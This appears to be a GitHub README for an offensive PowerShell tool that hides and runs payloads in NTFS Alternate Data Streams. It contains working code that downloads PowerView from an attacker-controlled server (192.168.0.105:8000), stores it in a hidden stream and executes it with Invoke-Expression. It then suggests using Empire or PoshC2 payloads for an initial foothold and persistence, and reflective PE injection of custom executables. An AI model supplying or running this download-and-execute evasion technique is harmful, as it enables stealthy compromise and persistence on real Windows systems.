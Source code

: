 # Alternate-Data-Streams with PowerShell

I literally stumbled upon this whilst reading up on the parameters for the Get-Content and Set-Content cmdlets for another piece of research.
The parameter that got my interest is -Stream which allows the user the ability to read and write NTFS alternate data streams.
If we create a file with the following commands;
```powershell
$file = "$env:TEMP\test.txt"
Set-Content -Path $file -Value 'Alternate Data Stream Test File'
```
To read the file content, we use the following;
```powershell
Get-Content -Path $file
```
Which will return;
```powershell
Alternate Data Stream Test File
```

## Hiding Content
As I mentioned above the -Stream parameter lets the user access the 'Hidden' NTFS Alternate Data Stream.
A simple example using the file created above;
```powershell
Add-Content -Path $file -Value 'Hidden Data' -Stream 'hiddenstream'

Get-Content -Path $file -Stream 'hiddenstream'
```
## Something More Useful
This is great, however not so much use, so what if we could hide something a touch more useful, say PowerView?
Taking the simple Proof of Concept - alternate-data-stream.txt from the repository, we create a new file as above, put some content in the file, however we now download a payload, (PowerView.ps1 in this example), from a webserver we control and hide it in an NFTS Alternate Data Stream, (called powerview).Finally we grab the content from the ADS and execute it.

```powershell
$file = "$env:TEMP\test.txt"
Set-Content -Path $file -Value 'Alternate Data Stream Test File'
Get-Content -Path $file
Alternate Data Stream Test File

$pvfile = Invoke-WebRequest -Uri http://192.168.0.105:8000/powerview.ps1
Add-Content -Encoding Byte -Path $file -Value $pvfile.Content -Stream 'powerview'
Invoke-Expression (Get-Content -Path $file -Stream 'powerview' -Raw)
```

Taking things further I put together a PowerShell script that creates a random filename with a randomish amount of random content and a random ADS name. The script asks the user for the uri of the payload downloads it and embeds into the ADS of the freshly created file.
The POC then retrieves and executes the downloaded content from the ADS of the random file. Also in this example the download process is able to detect webproxy settings and use the current user's credentials, (Proxy Aware).

## The script should be ran . sourced i.e.
```powershell
. ./Invoke-ADS.ps1
```
The screenshot below shows PowerView being pulled from a web server, being stored in a file/ADS then retrieved and executed.

![Alt text](./screenshots/invoke-ads-example.png?raw=true "Invoke-ADS example")

Further uses could be to download a payload, say a standard PoshC2 or Empire payload and hide it in ADS of a file and use this as the initial foothold and a persistence method.
Or perhaps a full executable stored in a PowerShell script and executed using Invoke-ReflectivePEInjection.ps1, similar to the way Invoke-Mimikatz.ps1 works.
If we look inside the Invoke-Mimikatz script the authors notes at around line 56 state 'This script was created by combining the Invoke-ReflectivePEInjection script written by Joe Bialek and the Mimikatz code written by Benjamin DELPY'

So to achieve a similar outcome with an executable of your making the process would be essentially just encode your exe and store in  $PEBytes and call the Invoke-ReflectivePEInjection function.

The options here are as broad and varied as your imagination.